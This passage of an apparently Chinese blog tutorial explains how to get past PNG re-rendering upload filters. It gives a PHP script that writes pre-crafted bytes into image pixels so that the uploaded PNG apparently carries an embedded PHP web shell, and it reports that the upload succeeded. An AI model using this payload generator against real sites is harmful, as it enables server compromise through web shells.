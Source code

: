 <img src="https://i-blog.csdnimg.cn/blog_migrate/e6f1afe84275684377cbe62203ef9011.png" alt="" style="max-height:363px; box-sizing:content-box;" />


注意我们写入的时候最好写在不破坏图片内容的地方 不然有可能无法实现绕过

### PNG的二次渲染绕过

我的window没有配置php 所以使用kali

```cobol
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
 
 
 
$img = imagecreatetruecolor(32, 32);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}
 
imagepng($img,'./1.png');
?>
```

然后执行

```undefined
php 大牛的代码 
```

就会自动生成png图片

然后上传即可



<img src="https://i-blog.csdnimg.cn/blog_migrate/1bd2b53cc7e75add86d69f135b37eb49.png" alt="" style="max-height:226px; box-sizing:content-box;" />


<img src="https://i-blog.csdnimg.cn/blog_migrate/e906e6b7887ddbed4504b2f6580ebb25.png" alt="" style="max-height:268px; box-sizing:content-box;" />




成功
